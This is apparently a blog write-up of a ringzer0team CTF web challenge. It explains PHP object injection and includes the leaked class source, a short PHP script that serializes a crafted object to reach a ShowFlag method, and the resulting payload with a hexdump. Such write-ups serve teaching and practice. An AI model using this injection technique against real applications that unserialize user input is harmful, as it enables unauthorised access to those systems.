 ```yaml
---
layout: post
title:  "Writeup - ringzer0team.com challenges (web 41) - 'Serial Killer!'"
date:   2018-05-21 11:14:41 -0400
categories: ringzer0team.com writeup
---
```

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-init.png)
This challenge initially displays a timestamp on the page. Digging into the request being sent, notice that there is a base64 encoded string within the GET request:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-base64.png)

When decoded, this is immediately recognizable as a serialized PHP object:

{% highlight php %}
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":1:{s:6:"action";s:14:"GetCurrentDate";}}
{% endhighlight %}

What happens if we add a single character within the base64 encoded "?o=" serialized value to upset the object structure? A wild stack trace appears:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-stack-trace.png)

Cleaning this up reveals the following PHP code. This shows the same 'RandomClass' class as exists in the discovered serialized string. What if we could inject our own object with arbitrary values and somehow retrieve the flag? In order to do that, we must first understand how the available PHP ['magic methods'](http://php.net/manual/en/language.oop5.magic.php) within the stack trace might assist us. Recommended reading for understanding PHP Object Injection will also be linked at the bottom of this post.

{% highlight php linenos %}
<?php

class RandomClass {

    private static $instance;
    private $uStruct;
    
    public function __construct() {
        $this->uStruct = (object) array();
    }
    
    public static function GetInstance() {
        if (!isset(self::$instance)) {
            self::$instance = new self();
        }
        return self::$instance;
    }

    public function __set($key, $value) {
        $this->uStruct->$key = $value;
    }

    public function __get($key) {
        return $this->uStruct->$key;
    }
    
    public function DoAction() {
        $action = $this->uStruct->action;
        $this->$action();
    }

    public function GetCurrentDate() {
        GetCurrentDate($this->uStruct);
    }

    public function ShowFlag() {
        if ($this->uStruct->time !== null && $this->uStruct->flag == 'Please?') {
            ShowFlag($this->uStruct);
        }
    }

    public function GetOutput() {
        return $this->uStruct->output;
    }
}
?>
{% endhighlight %}

Walking through the PHP code, first notice two private members (?). Immediately following that is the __construct() method. This magic method is called on each newly-created object, generally utilized for initialization of some sort. Inside the constructor is an empty array cast to an object, which is assigned to $this->uStruct.

From the PHP documentation, ["If a value of any other type is converted to an object, a new instance of the stdClass built-in class is created. If the value was NULL, the new instance will be empty. An array converts to an object with properties named by keys and corresponding values."](http://php.net/manual/en/language.types.object.php#language.types.object.casting)

The next magic method is __set. Reading PHP docs, ["__set() is run when writing data to inaccessible properties."](http://php.net/manual/en/language.oop5.overloading.php#language.oop5.overloading.members). This looks potentially promising. The __get() magic method is also defined here, but what really catches the eyes is the ShowFlag() function. If only it was possible to set the variables $this->uStruct->time and $this->uStruct->flag and retrieve the flag...

With the leak of the RandomClass class, we can create our own serialized object, base64 encode it, and provide as the value for "?o=" within the HTTP query string.

{% highlight php %}
$obj = new RandomClass();
$obj->time = "1";
$obj->flag = "Please?";
$obj->action = "ShowFlag";
echo serialize($obj);
{% endhighlight %}

{% highlight %}
root@kali:~/Challenge41# php sploit.php 
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":3:{s:4:"time";s:1:"1";s:4:"flag";s:7:"Please?";s:6:"action";s:8:"ShowFlag";}}

root@kali:~/Challenge41# php sploit.php | hexdump -C
00000000  4f 3a 31 31 3a 22 52 61  6e 64 6f 6d 43 6c 61 73  |O:11:"RandomClas|
00000010  73 22 3a 31 3a 7b 73 3a  32 30 3a 22 00 52 61 6e  |s":1:{s:20:".Ran|
00000020  64 6f 6d 43 6c 61 73 73  00 75 53 74 72 75 63 74  |domClass.uStruct|
00000030  22 3b 4f 3a 38 3a 22 73  74 64 43 6c 61 73 73 22  |";O:8:"stdClass"|
00000040  3a 33 3a 7b 73 3a 34 3a  22 74 69 6d 65 22 3b 73  |:3:{s:4:"time";s|
00000050  3a 31 3a 22 31 22 3b 73  3a 34 3a 22 66 6c 61 67  |:1:"1";s:4:"flag|
00000060  22 3b 73 3a 37 3a 22 50  6c 65 61 73 65 3f 22 3b  |";s:7:"Please?";|
00000070  73 3a 36 3a 22 61 63 74  69 6f 6e 22 3b 73 3a 38  |s:6:"action";s:8|
00000080  3a 22 53 68 6f 77 46 6c  61 67 22 3b 7d 7d        |:"ShowFlag";}}|
0000008e

{% endhighlight %}
